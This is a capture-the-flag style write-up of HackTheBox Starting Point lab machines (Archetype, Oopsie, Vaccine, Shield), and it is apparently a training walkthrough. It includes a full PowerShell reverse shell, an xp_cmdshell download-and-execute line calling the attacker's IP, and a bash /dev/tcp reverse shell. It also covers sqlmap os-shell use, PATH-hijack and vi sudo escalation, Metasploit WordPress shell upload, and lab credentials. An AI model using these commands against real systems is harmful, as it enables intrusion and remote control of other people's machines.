










# Starting Point on HackTheBox (2020)

## INTRODUCTION

 This path is composed of 6 boxes in a way that later boxes use information (like credentials) gathered from the previous ones.
<br>
<br>


## &#9656; ARCHTYPE 

### &#9702; About
=============

This is a Windows box where you can learn how enumeration can lead to RCE via SQL server queries.
<ul>
<li>Machine : <b>Archetype</b> </li>
<li>Ip: <b>10.10.10.27</b></li>
</ul>


### &#9702;  Enumeration
=============

***nmap -sC -sV 10.10.10.27***

Ports 445 and 1433 are open, which are associated with file sharing
(SMB) and SQL Server.
``` shell
  -------------------------------------------------------------------------------
  **sudo nmap -sC -sV 10.10.10.27**
  
  \[sudo\] password for kali:
  
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-04 08:58 EDT
  
  Nmap scan report for 10.10.10.27
  
  Host is up (0.046s latency).
  
  Not shown: 996 closed ports
  
  PORT STATE SERVICE VERSION
  
  135/tcp open msrpc Microsoft Windows RPC
  
  139/tcp open netbios-ssn Microsoft Windows netbios-ssn
  
  **445**/tcp open microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
  
  **1433/**tcp open ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
  
  | ms-sql-ntlm-info:
  
  | Target\_Name: ARCHETYPE
  
  | NetBIOS\_Domain\_Name: ARCHETYPE
  
  | NetBIOS\_Computer\_Name: ARCHETYPE
  
  | DNS\_Domain\_Name: Archetype
  
  | DNS\_Computer\_Name: Archetype
  
  |\_ Product\_Version: 10.0.17763
  
  ....
  
  Host script results:
  
  |\_clock-skew: mean: 1h38m45s, deviation: 3h07m52s, median: 14m44s
  
  | ms-sql-info:
  
  | OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
  
  | Computer name: Archetype
  
  | NetBIOS computer name: ARCHETYPE\\x00
  
  | Workgroup: WORKGROUP\\x00

  -------------------------------------------------------------------------------
```
It is worth checking to see if anonymous access has been permitted, as
file shares often store configuration files containing passwords or
other sensitive information. We can use smbclient to list available
shares.
``` shell
  -----------------------------------------
  smbclient -N -L \\\\\\\\10.10.10.27
  
  Sharename Type Comment
  
  --------- ---- -------
  
  ADMIN\$ Disk Remote Admin
  
  **backups Disk**
  
  C\$ Disk Default share
  
  IPC\$ IPC Remote IPC
  
  SMB1 disabled -- no workgroup available

  -----------------------------------------
```
It seems there is a share called **backups**. Let's attempt to access it
and see what's inside.
``` shell
  --------------------------------------------------------
  **smbclient -N \\\\\\\\10.10.10.27\\\\backups**
  
  Try "help" to get a list of possible commands.
  
  smb: \\> **dir**
  
  . D 0 Mon Jan 20 07:20:57 2020
  
  .. D 0 Mon Jan 20 07:20:57 2020
  
  **prod.dtsConfig** AR 609 Mon Jan 20 07:23:02 2020
  
  10328063 blocks of size 4096. 8251965 blocks available
  
  smb: \\>

  --------------------------------------------------------
```
There is a dtsConfig file, which is a config file used with SSIS. Let’s
see the code
``` shell
  -------------------------------------------------------------------------------------------------------------
  smb: \\> get prod.dtsConfig
  
  getting file \\prod.dtsConfig of size 609 as prod.dtsConfig (3.5 KiloBytes/sec) (average 3.5 KiloBytes/sec)
  
  smb: \\>

  -------------------------------------------------------------------------------------------------------------
```
Checking the file we see:

- The password: **M3g4c0rp123**

- The user ID : **ARCHETYPE\\sql\_svc**
``` shell
  -------------------------------------------------------------------------------------------------------------------------------
  **more prod.dtsConfig **
  
  <DTSConfiguration>
  
  <DTSConfigurationHeading>
  
  <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." G
  
  eneratedDate="20.1.2019 10:01:34"/>
  
  </DTSConfigurationHeading>
  
  <Configuration ConfiguredType="Property" Path="\\Package.Connections\[Destination\].Properties\[ConnectionString\]
  
  " ValueType="String">
  
  <ConfiguredValue>Data Source=.;*Password=***M3g4c0rp123**;*User ID=***ARCHETYPE\\sql\_svc;**Initial Catalog=Catalog;Pro
  
  vider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
  
  </Configuration>
  
  </DTSConfiguration>

  -------------------------------------------------------------------------------------------------------------------------------
```
### &#9702; Foothold
==========

We see that it contains a SQL connection string, containing credentials
for the local Windows user **ARCHETYPE\\sql\_svc.**

Let's try connecting to the SQL Server using **Impacket's** mssqlclient.py
with the above credentials (pwd:**M3g4c0rp123** )
``` shell
  ------------------------------------------------------------------------------------------------------------------
  python3 /usr/share/doc/python3-impacket/examples/**mssqlclient.py** ARCHETYPE/sql\_svc@10.10.10.27 -windows-auth

  Password:
  
  \[\*\] Encryption required, switching to TLS
  
  \[\*\] ENVCHANGE(DATABASE): Old Value: master, New Value: master
  
  \[\*\] ENVCHANGE(LANGUAGE): Old Value: , New Value: us\_english
  
  \[\*\] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
  
  \[\*\] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
  
  \[\*\] INFO(ARCHETYPE): Line 1: Changed language setting to us\_english.
  
  \[\*\] ACK: Result: 1 - Microsoft SQL Server (140 3232)
  
  \[!\] Press help for extra shell commands
  
  SQL>

  ------------------------------------------------------------------------------------------------------------------
```
We can use the *IS\_SRVROLEMEMBER* function to reveal whether the
current SQL user has sysadmin (highest level) privileges on the SQL
Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable *xp\_cmdshell* and gain RCE(remote code
execution) on the host. Let's attempt this, by inputting the commands
below.
``` shell
  --------------------------------------------------------
  **EXEC sp\_configure 'Show Advanced Options', 1;**
  
  **reconfigure;**
  
  **sp\_configure;EXEC sp\_configure 'xp\_cmdshell', 1**
  
  **reconfigure;**
  
  **xp\_cmdshell "whoami"**
  --------------------------------------------------------
```
The whoami command output reveals that the SQL Server is also running in
the context of the user **ARCHETYPE\\sql\_svc**. However, this account
doesn't seem to have administrative privileges on the host.
``` shell
  --------------------------------------------------------------------------------------------------------------------------------------
  SQL>EXEC sp\_configure 'Show Advanced Options', 1;
  
  reconfigure;
  
  ....
  
  SQL> EXEC sp\_configure 'xp\_cmdshell', 1
  
  \[\*\] INFO(ARCHETYPE): Line 185: Configuration option 'xp\_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
  
  SQL> reconfigure;
  
  SQL> **xp\_cmdshell "whoami"**
  
  output
  
  --------------------------------------------------------------------------------
  
  **archetype\\sql\_svc**
  
  NULL
  
  SQL>
  --------------------------------------------------------------------------------------------------------------------------------------
```
Let's attempt to get a proper shell, and proceed to further enumerate
the system. We can save the PowerShell reverse shell below as
**shell.ps1.**
``` shell
  ---------------------------------------------------------------------------------------------------------------
  **\#shell.ps1**
  
  \$client = New-Object System.Net.Sockets.TCPClient("10.10.14.16",443);
  
  \$stream = \$client.GetStream();
  
  \[byte\[\]\]\$bytes = 0..65535|%{0};
  
  while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0)
  
  {;\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);
  
  \$sendback = (iex \$data 2>&1 | Out-String );
  
  \$sendback2 = \$sendback + "\# ";
  
  \$sendbyte = (\[text.encoding\]::ASCII).GetBytes(\$sendback2);\$stream.Write(\$sendbyte,0,\$sendbyte.Length);
  
  \$stream.Flush()};
  
  \$client.Close()
  ---------------------------------------------------------------------------------------------------------------
```
Next, stand up a mini webserver in order to host the file. We can use
Python.

``` shell
  --------------------------------------------------------
  python3 -m http.server 80
  -------------------------------------------------------- 
```
Below the python mini webserver started:<br>
<div style="width:100%; background-color:#252b34"></div>


After standing up a netcat listener on port 443, we can use ufw to allow
the call backs on port 80 and 443 to our machine.
``` shell
  ---------------------------------------------------------
  nc -lvnp 443
  
  ufw allow from 10.10.10.27 proto tcp to any port 80,443
  ---------------------------------------------------------
```
Below the netcat listener started:<br>
<div style="width:100%; background-color:#252b34"></div>

We can now issue the command to download and execute the reverse shell
through xp\_cmdshell. (10.10.14.16 attacking machine)
``` shell
  -------------------------------------------------------------------------------------------------------------------
 xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\\"http://10.10.14.16/shell.ps1\\");"
  -------------------------------------------------------------------------------------------------------------------
```
<!-- 
<div style="width:100%; background-color:#252b34"></div>
-->

We can see from our mini webserver that a file has been downloaded

<div style="width:100%; background-color:#252b34"></div>

A shell is received as **sql\_svc**, and we can get the user.txt on
their desktop.

<div style="width:100%; background-color:#252b34"></div>

Using Tmux, that’s all in one window:

<div style="width:100%; background-color:#252b34"></div>

### &#9702;  Privilege Escalation
======================

As this is a normal user account as well as a service account, it is
worth checking for frequently access files or executed commands. We can
use the *type* command to access the PowerShell history file.
``` shell
  ------------------------------------------------------------------------------------------------------------------
  type C:\\Users\\sql\_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt
  ------------------------------------------------------------------------------------------------------------------
```
From the ConsoleHost\_history.txt we can see the administrator password:
``` shell
  -------------------------------------------------------------------------------------
  net.exe use T: \\\\Archetype\\backups /user:**administrator** **MEGACORP\_4dm1n!!**
  
  exit
  -------------------------------------------------------------------------------------
```
<div style="width:100%; background-color:#252b34"></div>

This also reveals that the backups drive has been mapped using the local
administrator credentials. We can use Impacket's psexec.py to gain a
privileged shell.
``` shell
  ------------------------------------------------------------------------------------------
  python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@10.10.10.27
  ------------------------------------------------------------------------------------------
```
<!-- <div style="width:100%; background-color:#252b34"></div> -->
<br>
Once gained the privileged shell, we can now search for <b>"root.txt"</b>
<br><br>
<div style="width:100%; background-color:#252b34;text-align: center;"></div>

<!-- <div style="width:100%; background-color:#252b34"></div>-->

## &#9656;  OOPSIE 

### &#9702;  About
=============

This box features debugging session and MySQL enumeration
<ul>
<li>Machine : <b>Oopsie</b> </li>
<li>Ip: <b>10.10.10.28</b></li>
</ul>

### &#9702;  Enumeration
=============

***nmap -sC -sV 10.10.10.28***

Running a simple Nmap scan reveals ***two*** open ports running, for SSH
and Apache respectively.
```
  ------------------------------------------------------------------------------------------------
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-06 03:34 EDT
  
  Nmap scan report for 10.10.10.28
  
  Host is up (0.037s latency).
  
  Not shown: 998 closed ports
  
  PORT STATE SERVICE VERSION
  
  **22**/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  
  | ssh-hostkey:
  
  | 2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
  
  | 256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
  
  |\_ 256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
  
  **80**/tcp open http Apache httpd 2.4.29 ((Ubuntu))
  
  |\_http-server-header: Apache/2.4.29 (Ubuntu)
  
  |\_http-title: Welcome
  
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  
  Nmap done: 1 IP address (1 host up) scanned in 23.92 seconds
  ------------------------------------------------------------------------------------------------
```
Nmap reveals reveals that SSH and Apache are available on their default
ports. Let's check out the website.

<!-- <div style="width:100%; background-color:#252b34;text-align: center;"></div> -->


It seems to be a website for the electric vehicle manufacturer MegaCorp.
Scrolling down, we note that a reference is made to logging in.

<!-- <div style="width:100%; background-color:#252b34;text-align: center;"></div>  -->


We can't see anything else of interest, so let's send the request to a
web proxy such as Burp, so we can examine the website in more detail.

We point the browser to the Burp proxy at **127.0.0.1:8080**, refresh
the page, and forward the request.

<!-- <div style="width:100%; background-color:#252b34;text-align: center;"></div> -->




On the Target tab, we notice that Burp has passively **spidered** the
website while processing the request.


We can see the url “**/cdn-cgi/login**”.


We could have also simply used our browser; in Firefox we could have
inspected the web page, and we could have found the same url under the
**Network Monitor** tab:

}

We could have just used “**Edit and Resend**”


Just modify the URL into “**http://10.10.10.28/cdn-cgi/login/**”


And click “Send”


And the link to the login page appear in our list:


Now just open it in a “New Tab”


We confirm that this is a login page. Let's try to reuse the password
**MEGACORP\_4dm1n!!** from the previously compromised machine, with
common usernames such as **administrator** or **admin** .


This is successful, and we gain access to the web portal, which contains
additional functionality.


However, it seems the developer has implemented tiers of administration,
and the Uploads page is further restricted to the **super admin** user.


Let's examine the URL:
“**http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&i**d=”

We can see that for **id=1,** we will have user **admin**


If we pick **Id=4**, the user is now **john**


Let’s examine the page in ***Burp***. We refresh on the Accounts page,
which displays the user id for our current user, and intercept the
request. We notice what seems to be a custom cookie implementation,
comprising of the **user** value and **role**. We also notice the **id**
parameter, which for our current admin user is 1.


This shows that it might be possible to brute force the **id** values,
and display the **user** value for another user, such as the super admin
account.

We can do this using by trying a series of id values, we will use Burp's
**Intruder module**.


We press Clear to remove the pre-populated payload positions


We now select the Id value (1),


We click Add.


Next, click on the Payloads tab.



We can generate a sequential list of 1-100 using a simple bash script
``` shell
  -----------------------------------------------
  **for i in \`seq 1 100\`; do echo \$i; done**
  -----------------------------------------------
```


.....


Paste the output into the Payloads box.


Next we move to “Options” tab


We ensure that Follow Redirections is set to "**Always**", and select
the option to "**Process cookies in redirections**".


Let’s click on the Target tab, and then click “**Start attack**”.


We sort responses by Length, and view the results.


A few of a responses have a different length, and we proceed to examine
them. The super admin account is visible, and ***corresponding user
value is identified***(86575).


Let’s try to access the Uploads page again


Let’s substitute the user value (34322) with the super admins value
(86575).


Let’s click on “Forward” and see what the response into the browser
(let’s disable the proxy first)


Inspecting cookies, let’s see again the upload page:


We can see that the user’s Value is “**34322**” with role “admin”


Let’s try changing the users’ value into “**86575**” an see what happens
the we refresh the page


We do now have access as super admin:


### &#9702; Foothold
===============

Let’s check if the developer forgot to implement user input validation,
and so we should test if we can upload other files, such as a PHP
webshell.

Let’s locate the “php-reverse-shell.php” file.



Let’s save this file as “**check.php**”



Let’s now customize the file “check.php” file with our IP address and
the port values


Page reports that the upload of the “**check.php**” file was successful


  
  


We don't know where the reverse shell was uploaded to. Let's enumerate
the web server for common directories using a the dirsearch tool.


From the output we can see that tool identified the uploads folder


We can set up our listener


Then we can trigger a reverse shell using the curl command.


Below a a shell as **www-data** and proceed to upgrade it.


Let’s upgrade the reverse shell as follow:

``` text
  
  **SHELL=/bin/bash script -q /dev/null**   
                                            
  **<Ctrl-Z>**                        
                                            
  **stty raw -echo**                        
                                            
  **fg**                                    
                                            
  **reset**                                 
                                            
  **xterm**  

  
```
### &#9702; Lateral Movement
==================

The website records are probably retrieved from a database, so it's a
good idea to check for database connection information.

Let’s check for any db file


And


Let check the **/var/www/html/cdn-cgi/login/db.php. **


From the php.net manual page
“https://www.php.net/manual/en/function.mysqli-connect.php”, we see how
**mysqli\_connect** function works:

```
    mysqli\_connect(DB\_HOST, DB\_USERNAME, DB\_PASSWORD,DB\_NAME);"
 
```

Indeed, **db.php** does contain credentials:

-   DB\_USERNAME: **robert**

-   DB\_PASSWORD:**M3g4C0rpUs3r!**

***We can su robert to move laterally.***


### &#9702;  Privilege Escalation
======================

The **id** command reveals that **robert** is a member of the
**bugracker** group.


We can enumerate the filesystem to see if this group has any special
acces
```
  -----------------------------------------------------
  **find / -type f -group bugtracker 2>/dev/null**
  -----------------------------------------------------
```

```
  ---------------------------------
  **ls -al /usr/bin/bugtracker **
  ---------------------------------
```


We could have use also the following command to concatenate the two
commands:
```
  --------------------------------------------------------------------
  **find / -type f -group bugtracker 2>/dev/null | xargs ls -al**
  --------------------------------------------------------------------
```
#### &#x25B9;  ***Setuid***


We can see that there is a special permission on the file “**s**”.

That is the "setuid" bit, which tells the OS to execute that program
with the userid of its owner.This is typically used with files owned by
root to allow normal users to execute them as root with no external
tools (such as sudo).

**SUID** is a special file permission for executable files which enables
other users to run the file with effective permissions of the file
owner. Instead of the normal x which represents execute permissions, you
will see an **s** (to indicate **SUID**) special permission for the
user.

**SGID** is a special file permission that also applies to executable
files and enables other users to inherit the effective **GID** of file
group owner. Likewise, rather than the usual x which represents execute
permissions, you will see an **s** (to indicate **SGID**) special
permission for group user.

Let's run the **bugtracker binary** and see what it does.


It seems to output a report based on the ID value provided. Let's use
strings to see how it does this.


<!-- <SNIP> -->


We see that it calls the “**cat”** binary using this relative path
instead of the absolute path.

Let have a look to current \$PATH
``` shell
  -----------------
  **echo \$PATH**
  -----------------
```


By creating a malicious cat, and modifying the path to include the
current working directory, we should be able to abuse this
misconfiguration, and escalate our privileges to root.

Let's add the “**tmp**” directory to PATH
``` shell
  -----------------------------
  **export PATH=/tmp:\$PATH**
  -----------------------------
```


Then we move into the tmp folder:
``` shell
  --------------
  **cd /tmp/**
  --------------
```
Let’ create ***a malicious cat***,
``` shell
  -----------------------------
  **echo '/bin/sh' > cat**
  -----------------------------
```
Let's make it executable.
``` shell
  ------------------
  **chmod +x cat**
  ------------------
```
Now, after making our “malicious” cat executable if we search for the
cat executable with the “which” command we will see:


PATH is an *environmental variable* in *Linux* and other *Unix-like*
*operating systems* that tells the **shell** which *directories* to
search for **executable files** (i.e., ready-to-run *programs*) in
response to *commands* issued by a user.

The first “cat” command to be executed will be “/tmp/cat”, so by running
the bugtracker nìbinary we will have access to a root shell.


### &#9702;  Post Exploitation
===================

Inside root's folder, we see a .config folder, which contains a
FileZilla config file with the credentials **ftpuser / mc@F1l3ZilL4**
visible in plain text.

{width="5.125in" height="1.9791666666666667in"}


## &#9656; VACCINE 

### &#9702; About
This box features working with MD5 hashes and escaping user context to root by exploiting sudoer misconfiguration
<ul>
<li>Machine : <b>Vaccine</b> </li>
<li>Ip: <b>10.10.10.46</b></li>
</ul>


### &#9702; Enumeration
======================

***nmap -sC -sV 10.10.10.46***

Running a simple Nmap scan reveals three open ports running, for FTP,
SSH and Apache respectively.
```
  ------------------------------------------------------------------------------------------------
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-03 10:28 EDT
  
  Nmap scan report for 10.10.10.46
  
  Host is up (0.041s latency).
  
  Not shown: 997 closed ports
  
  PORT STATE SERVICE VERSION
  
  **21/tcp** open ftp vsftpd 3.0.3
  
  **22/tcp** open ssh OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
  
  | ssh-hostkey:
  
  | 3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
  
  | 256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
  
  |\_ 256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
  
  **80/tcp** open http Apache httpd 2.4.41 ((Ubuntu))
  
  | http-cookie-flags:
  
  | /:
  
  | PHPSESSID:
  
  |\_ httponly flag not set
  
  |\_http-server-header: Apache/2.4.41 (Ubuntu)
  
  |\_http-title: MegaCorp Login
  
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux\_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  
  Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
  ------------------------------------------------------------------------------------------------
```
The credentials **ftpuser / mc@F1l3ZilL4** can be used to login to the
FTP server.

***ftp 10.10.10.46***

  ``` shell
  ----------------------------------
  Connected to 10.10.10.46.
  
  220 (vsFTPd 3.0.3)
  
  Name (10.10.10.46:kali): ftpuser
  
  331 Please specify the password.
  
  Password:
  
  230 Login successful.
  ----------------------------------
```
Let’s see what is in there:
``` shell
  ---------------------------------------------------
  Remote system type is UNIX.
  
  Using binary mode to transfer files.
  
  ftp> dir
  
  200 PORT command successful. Consider using PASV.
  
  150 Here comes the directory listing.
  
  -rw-r--r-- 1 0 0 2533 Feb 03 11:27 backup.zip
  
  226 Directory send OK.
  ---------------------------------------------------
  ```

A file named **backup.zip** is found in the folder. Let get the \*.zip
file:
``` shell
  ----------------------------------------------------------------------
  ftp> ***get backup.zip***
  
  local: backup.zip remote: backup.zip
  
  200 PORT command successful. Consider using PASV.
  
  150 Opening BINARY mode data connection for backup.zip (2533 bytes).
  
  226 Transfer complete.
  
  2533 bytes received in 0.00 secs (1.1824 MB/s)
  
  ftp>
  
  741852963 (backup.zip)
  ----------------------------------------------------------------------
```
Extraction of the archive fails as it's password protected. The password
can be cracked using **zip2john**, **JohntheRipper** and
**rockyou.txt**.

The zip2john tool will be used to process the input ZIP files into an
**hash** format suitable for use with JohntheRipper
``` shell
  -----------------------------------
  **zip2john backup.zip > hash**
  -----------------------------------
```
The rockyou.txt file (with the passwords) is located here :
``` shell
  -----------------------------------------
  **locate rockyou.txt**
  
  **/usr/share/wordlists/rockyou.txt.gz**
  -----------------------------------------
  ```

To extract the **rockyou.txt.gz** file we use the **gunzip** command:

-   **gunzip /usr/share/wordlists/rockyou.txt.gz**

    Now it is possible to use the **JohntheRipper** tool as sown below:
``` shell
  --------------------------------------------------------------------------
  **john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt**
  
  Using default input encoding: UTF-8
  
  Loaded 1 password hash (PKZIP \[32/64\])
  
  Node numbers 1-4 of 4 (fork)
  
  Press 'q' or Ctrl-C to abort, almost any other key for status
  
  ***741852963** (backup.zip)*
  
  1 1g 0:00:00:00 DONE (2020-07-03 11:33) 100.0g/s 25600p/s 25600c/s
  
  .......
  
  Use the "--show" option to display all of the cracked passwords reliably
  
  Session completed
  --------------------------------------------------------------------------
```
As we can see, the password for the backup.zip file is found to be
**741852963**

Extracting it's contents using the password reveals a PHP file and a CSS
file.
``` shell
  ------------------------------------
  **unzip backup.zip **
  
  Archive: backup.zip
  
  \[backup.zip\] index.php password:
  
  inflating: index.php
  
  inflating: style.css
  ------------------------------------
```
Inspecting the PHP source code, we find a login check.
``` shell
  --------------------------------------------------------------------------------------------------------------------------------
  <?php
  
  session\_start();
  
  if(isset(\$\_POST\['username'\]) && isset(\$\_POST\['password'\])) {
  
  if(\$\_POST\['**username**'\] === '**admin**' && md5(\$\_POST\['**password**'\]) === "**2cb42f8734ea607eefed3b70af13bbd3**") {
  
  \$\_SESSION\['login'\] = "true";
  
  header("Location: dashboard.php");
  
  }
  
  }
  
  ?>
  --------------------------------------------------------------------------------------------------------------------------------
```
The input password is hashed into a MD5 hash:
**2cb42f8734ea607eefed3b70af13bbd3**. T

This hash can be easily cracked using an online rainbow table such as
crackstation.

{width="5.7659722222222225in"
height="3.2916666666666665in"}

The result is : **qwerty789**

### &#9702; Foothold
======================

Browsing to port 80, we can see a login page for MegaCorp.

{width="6.147222222222222in"
height="2.2847222222222223in"}

The credentials **admin / qwerty789** can be used to login.

{width="6.0784722222222225in"
height="2.8097222222222222in"}

The page is found to host a Car Catalogue, and contains functionality to
search for products.

{width="5.572916666666667in"
height="0.4479166666666667in"}

Searching for example fo the term “a”, results in the following request.

**http://10.10.10.46/dashboard.php?search=a**

{width="5.760416666666667in" height="3.0875in"}

The page takes in a GET request with the parameter search. This URL is
supplied to sqlmap, in order to test for SQL injection vulnerabilities.
The website uses cookies, which can be specified using --cookie.

Right-click the page and select Inspect Element. Click the Storage tab
and copy the PHP Session ID.

{width="5.759027777777778in" height="1.4625in"}

{width="3.1145833333333335in" height="0.625in"}

WE see the PHPSESSID value is :"**gub9n3ugpgc5obsre8jkv8tq3m**"

We can construct the Sqlmap query as follows:

**sqlmap -u 'http://10.10.10.46/dashboard.php?search=a’
--cookie="**PHPSESSID=**gub9n3ugpgc5obsre8jkv8tq3m"**

Sqlmap found the page to be vulnerable to multiple injections, and
identified the backend DBMS to be PostgreSQL.

***Getting code execution in postgres is trivial using the --os-shell
command.***
``` shell
  -----------------------------------------------------------------------------------------------------------------------
  **sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=gub9n3ugpgc5obsre8jkv8tq3m" --os-shell **
  
  ....
  
  \[\*\] starting @ 15:32:32 /2020-07-03/
  
  ....
  
  ....
  
  Parameter: search (GET)
  
  ....
  
  Title: PostgreSQL > 8.1 stacked queries (comment)
  
  Payload: search=a';SELECT PG\_SLEEP(5)--
  
  Type: time-based blind
  
  Title: PostgreSQL > 8.1 AND time-based blind
  
  Payload: search=a' AND 8079=(SELECT 8079 FROM PG\_SLEEP(5))-- dEyh
  
  ....
  
  ....
  
  \[15:32:34\] \[INFO\] going to use 'COPY ... FROM PROGRAM ...' command execution
  
  \[15:32:34\] \[INFO\] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
  
  **os-shell> **
  -----------------------------------------------------------------------------------------------------------------------
```
{width="5.759027777777778in"
height="1.4895833333333333in"}

### &#9702; Privilege Escalation
======================

This can be used to execute a bash reverse shell.
``` shell
  --------------------------------------------------------------------
  **bash -c 'bash -i >& /dev/tcp/<your\_ip>/4444 0>&1'**
  --------------------------------------------------------------------
```
{width="5.7659722222222225in" height="1.9375in"}

Let's upgrade to a tty shell and continue enumeration.
``` shell
  -----------------------------------------
  **SHELL=/bin/bash script -q /dev/null**
  -----------------------------------------
```
Let’s have a look to the source code of dashboard.php in /var/www/html.

The code reveals the postgres password to be: **P@s5w0rd!**

{width="5.7659722222222225in" height="0.375in"}

This password can be used to view the user's sudo privileges.

{width="5.7652777777777775in"
height="1.1513888888888888in"}

The user is allowed to edit the configuration
**/etc/postgresql/11/main/pg\_hba.conf** using vi. This can be leveraged
to gain a root shell and access root.txt.

Once opened the file in “**Vi**” editor with sudo, we can spawn a TTY
shell from within vi by just typing:

-   :!**0**bash

-   :set shell=**/**bin**/**bash:shell

-   :!/bin/bash

{width="5.764583333333333in"
height="6.316666666666666in"}

As we can see, now we have a TTY as root.

{width="5.763194444444444in" height="4.34375in"}


## &#9656; SHIELD 

### &#9702; About
======================

This box features only a root flag. Don't waste your time on finding the user.txt - until this is corrected by the Dev Team. I've raised this issue already, so this article will be updated accordingly when status is changed. UPDATE: Apparently this is solved right now and information "No Flag" for user flag is shown correctly both for Shield and Vaccine.
<ul>
<li>Machine : <b>Shield</b> </li>
<li>Ip: <b>10.10.10.29</b></li>
</ul>


### &#9702; Enumeration
======================

***sudo nmap -sC -sV 10.10.10.29***

From the Nmap output, we find that **IIS** and **MySQL** are running on
their default ports. IIS (Internet Information Services) is a Web Server
created by Microsoft.
```
  -----------------------------------------------------------------
  Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-09 12:59 EDT
  
  Nmap scan report for 10.10.10.29
  
  Host is up (0.044s latency).
  
  Not shown: 998 filtered ports
  
  PORT STATE SERVICE VERSION
  
  **80/tcp open http Microsoft IIS httpd 10.0**
  
  | http-methods:
  
  |\_ Potentially risky methods: TRACE
  
  |\_http-server-header: Microsoft-IIS/10.0
  
  |\_http-title: IIS Windows Server
  
  **3306/tcp open mysql MySQL (unauthorized)**
  
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  -----------------------------------------------------------------
```
Let's navigate to port 80 using a browser.

{width="5.78125in"
height="2.4034722222222222in"}

We see the default IIS starting page.

Let's use GoBuster to scan for any sub-directories or files that are
hosted on the server.


We do found the “/**wordpress”** folder.

WordPress is a Content Management System (CMS) that can be used to
quickly create websites and blogs.

Let’s do another search using “dirsearch” and pointing directly to that
folder


We do see some interesting folder and files.

Since we have already acquired the password **P@s5w0rd!,** we can try to
login to the WordPress site.

We navigate to http://10.10.10.29/wordpress/wp-login.php and try to
guess the username.

Some common usernames are **admin** or **administrator**.

The combination **admin** : **P@s5w0rd!** is successful and we gain
administrative access to the site.


### &#9702; Foothold
====================

The administrative access can be leveraged through the msfmodule
**“exploit/ unix/webapp/wp\_admin\_shell\_upload”**, to get a
meterpreter shell on the system. Let’s follow the following commands in
order to get a session:
``` shell
  -----------------------------------------------------------
  msfconsole
  
  msf > use exploit/unix/webapp/wp\_admin\_shell\_upload
  
  msf > set PASSWORD P@s5w0rd!
  
  msf > set USERNAME admin
  
  msf > set TARGETURI /wordpress
  
  msf > set RHOSTS 10.10.10.29
  
  msf > run
  -----------------------------------------------------------
```


Now that we got a meterpreter shell, we can use netcat (nc.exe) tp get a
more stable shell.

So let’s locate the binary.


Let’s copy **nc.exe** into our “Tools” directory


